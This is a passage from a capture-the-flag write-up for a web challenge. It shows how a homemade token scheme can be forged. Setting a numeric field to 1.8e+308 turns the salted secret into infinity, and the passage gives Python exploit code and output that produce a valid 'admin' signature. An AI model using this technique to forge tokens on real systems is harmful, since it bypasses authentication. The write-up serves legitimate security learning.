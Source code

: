 > Note: Assume the `secret` is not known, we can't recalculate the signature again.

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|14:14:13(HKT)]
└> python3 jwt_signature_generator.py
[*] Decoding the token...
[*] User info: {'username': 'blah', 'age': 123, 'role': 'admin', 'timestamp': 1708409176}
[*] Signature from user's token: 56d713d62b6d973fc28d88ba1c391961c93d45892867a5dd1c816fce5ec75d45
[*] New signature: b000309eda3e9f9580de535a387b351aa217cc31249d452741234ad858eb3358
[-] Invalid token: signature did not match data
```

As expected, the token's signature doesn't match to the new one.

**But what if, change the `age` to `1.8e+308`?** Since the `salted_secret` will always become `inf`, we can **recalculate the signature**!

```python
if __name__ == '__main__':
    userinfo = {
        'username': 'foobar',
        'age': 123,
        'role': 'user'
    }
    jwt = JasonWebToken(userinfo)

    # print('[*] Generating new token...')
    # token = jwt.createToken()
    # print(f'[+] Token: {token}\n')
    userinfo = {
        'username': 'blah',
        'age': 1.8e+308,
        'role': 'admin',
        'timestamp': 1708409176
    }
    saltedSecret = float('inf')
    data = json.dumps(userinfo)
    newSignature = jwt.hash_(f'{data}:{saltedSecret}')

    hexedData = data.encode().hex()
    token = f'{hexedData}.{newSignature}'

    print('[*] Decoding the token...')
    jwt.decodeToken(token)
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|14:31:34(HKT)]
└> python3 jwt_signature_generator.py
[*] Decoding the token...
[*] User info: {'username': 'blah', 'age': inf, 'role': 'admin', 'timestamp': 1708409176}
[*] Signature from user's token: 243650229dd5a5726b747bc153d14271dee5425e358be5c94b74182667bfa6bb
[*] New signature: 243650229dd5a5726b747bc153d14271dee5425e358be5c94b74182667bfa6bb
[+] The token's signature is matched to the new one!
```
